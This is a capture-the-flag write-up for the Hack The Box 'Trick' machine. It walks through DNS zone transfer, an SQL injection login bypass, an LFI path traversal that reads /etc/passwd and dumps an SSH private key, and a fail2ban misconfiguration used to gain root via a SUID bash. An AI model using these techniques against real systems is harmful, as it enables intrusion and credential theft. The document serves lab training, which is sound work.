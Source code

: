 # Trick - HTB(Easy)
## Itay Nafrin | October 18th

### IP = 10.10.11.166

### NMAP
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp    Postfix smtpd
|smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
|http-title: Coming Soon - Start Bootstrap Theme
|http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|  Supported Methods: GET HEAD
|http-server-header: nginx/1.14.2
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel


### DNS ENUM

```
$ nslookup         
> SERVER 10.10.11.166
Default server: 10.10.11.166
Address: 10.10.11.166#53
> 127.0.0.1
1.0.0.127.in-addr.arpa  name = localhost.
> 10.10.11.166
166.11.10.10.in-addr.arpa       name = trick.htb.
>   

```

```
$ dig axfr trick.htb @10.10.11.166

; <<>> DiG 9.18.4-2-Debian <<>> axfr trick.htb @10.10.11.166
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
<strong>preprod-payroll.trick.htb</strong>. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 84 msec
;; SERVER: 10.10.11.166#53(10.10.11.166) (TCP)
;; WHEN: Tue Oct 18 07:04:25 EDT 2022
;; XFR size: 6 records (messages 1, bytes 231)

```

As you can see there are is a domain trick.htb and it's sub domain preprod-payroll add the to the /etc/hosts file.

### Web Enum

When entering http://preprod-payroll.trick.htb you can see a login form but you can bypass it by a simple SQL Injection enter: 
username: ' OR 1=1 -- -
password: sdfsdf

This doesn't lead us to anything so I tried another thing, maybe if I take the top 5000 subdomains file and append it to the preprod- maybe I'll get a new domain to work on.

### Fuzz

```

$ cat subdomains-top1million-5000.txt
preprod-www
preprod-mail
preprod-ftp
preprod-localhost
preprod-webmail
preprod-smtp
preprod-webdisk
preprod-pop
preprod-cpanel
preprod-whm
preprod-ns1
preprod-ns2
preprod-autodiscover
more...

$ wfuzz -c -f sub-fighter -w subdomains-top1million-5000.txt -u 'http://trick.htb' -H "Host: FUZZ.trick.htb" --hw 475
Target: http://trick.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                               

000000254:   200        178 L    631 W      9660 Ch     "preprod-marketing" 

```

Interesting we got a new subdomain.


http://preprod-marketing.trick.htb

So I started doing some recon and saw the `page` parameter interesting, maybe it's vulnerable to LFI:

```
$ wfuzz -c -f lfi-fighter -w /usr/share/wordlists/LFI_payloads.txt -u 'http://preprod-marketing.trick.htb/index.php?page=FUZZ' --hl 0 

Target: http://preprod-marketing.trick.htb/index.php?page=FUZZ
Total requests: 70466

=====================================================================
ID           Response   Lines    Word       Chars       Payload                               

000004790:   200        41 L     68 W       2351 Ch     "/..././..././..././..././..././..././
                                                        ..././..././etc/passwd"               
000012828:   200        41 L     68 W       2351 Ch     "/..././..././..././..././..././..././
                                                        ..././..././etc/passwd" 

```
```
$ curl "preprod-marketing.trick.htb/index.php?page=..././..././..././etc/passwd" | grep bash 
root:x:0:0:root:/root:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash

```

We got a `micheal` user.

```

$ curl "http://preprod-marketing.trick.htb/index.php?page=..././..././..././home/michael/.ssh/id_rsa"
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

### SSH 

```
$ ssh michael@trick.htb -i id_rsa
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
michael@trick:/home/michael$ whoami && id && cat user.txt && ip a
michael
uid=1001(michael) gid=1001(michael) groups=1001(michael),1002(security)
1a32588edc435559fa1592260d78616c
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:eb:a6 brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.166/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:eba6/64 scope global dynamic mngtmpaddr 
       valid_lft 86400sec preferred_lft 14400sec
    inet6 fe80::250:56ff:feb9:eba6/64 scope link 
       valid_lft forever preferred_lft forever
```

### Priv Esc

```

$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

fail2ban is a system that identifies a brute-force attack and you can exploit it by changing it's `iptables-multiport.conf` file because it's owned by you. 

1. `nano /etc/fail2ban/action.d/iptables-multiport.conf`
Now you need to edit this:
```

acitonban = chmod +s /bin/bash

actionunbam = chmod +s /bin/bash

```

2. `$ sudo /etc/init.d/fail2ban restart`
3. while your running step number 2 you need to attack the machine via brute-force.
`$ hydra -l 0xfad3 -P /usr/share/wordlist/rockyou.txt ssh://trick.htb`
4. meanwhile /bin/bash file is going to change its permissions 
5. $ bash -p 
`root@trick:~# cat root.txt `
<strong>ee99916ae2ad5baf2ca5da5423b04858</strong>

more info - https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/ & https://youtu.be/vAlkrw-o7m4?t=2247